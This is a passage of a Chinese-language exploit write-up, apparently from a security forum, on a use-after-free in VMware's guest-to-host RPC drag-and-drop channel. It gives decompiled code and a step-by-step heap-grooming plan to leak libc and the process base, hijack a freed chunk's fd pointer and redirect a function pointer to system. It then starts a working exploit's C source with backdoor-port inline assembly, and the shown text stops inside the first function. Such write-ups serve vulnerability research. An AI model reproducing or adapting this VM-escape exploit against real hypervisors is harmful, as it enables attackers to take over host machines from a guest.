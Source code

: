 ```c
    v10 = 0LL;
  }
  else
  {
    *(_DWORD *)(v9 + 360) = v8;
    v10 = 1LL;
  }
  sub_472380(v9, v10);
  sub_1711E0(*(_QWORD *)(theCurrentVM + 104LL));
  if ( !(unsigned __int8)sub_12FA20((unsigned int)v13[0]) )
    return set_reply(reply, reply_len, "Failed to set VMDB");
  if ( v13[0] > 2 )
    Tools_SetGuestDnDCapable("1");
  return set_reply(reply, reply_len, "");
}
```

传入一个参数代表版本，如果不符合则销毁之前的结构体，创建一个新的结构体。更新在`vmx.capability.dnd_version`也有对应实现。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-bb838684db02dce7205e00d839ff208fed7e2264.png)

追踪函数

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-d6bea8ffd78640f22c86266f875cf6f17ba55736.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-028a1df016d78ca5454c36d7bdd28d0c504175cb.png)

那么可以猜到新的结构体大小总是为0xa8。可以通过该方法，控制buf的大小为0xa8，销毁原来的object获得新的object的时候，把channel B的UAF chunk申请出来，然后利用channel C leak libc基址。

有了leak，利用起来就简单了，直接改fd，然后劫持到bss段，改掉某一个函数指针为system即可。

新的leak方式如下

- 开启channel A和channel B
- A的输出缓冲区为bufA,A利用漏洞free bufA
- 然后B给guest发送out put，这时候控制B的buf大小和A一样，此时free的A再次被malloc出来
- 释放A，同时buf A被再次释放，此时调用`vmx.capability.dnd_version`，虚表在此时被写入bufB
- leak出process base 然后根据偏移即可计算出system 以及一些函数指针的地址。

最后以相同的方式，劫持fd即可,下面的exp是长亭师傅的，根据通信原理实现了一套通信机制，具体内容看参考，不赘述。

exp：

```c
#include <stdio.h>
#include <stdint.h>
void channel_open(int *cookie1,int *cookie2,int *channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rdi,%%r10\n\t"
        "movq %%rsi,%%r11\n\t"
        "movq %%rdx,%%r12\n\t"
        "movq %%rcx,%%r13\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0xc9435052,%%ebx\n\t"
        "movl $0x1e,%%ecx\n\t"
        "movl $0x5658,%%edx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%edi,(%%r10)\n\t"
        "movl %%esi,(%%r11)\n\t"
        "movl %%edx,(%%r12)\n\t"
        "movl %%ecx,(%%r13)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r8","%r10","%r11","%r12","%r13"
       );
}
```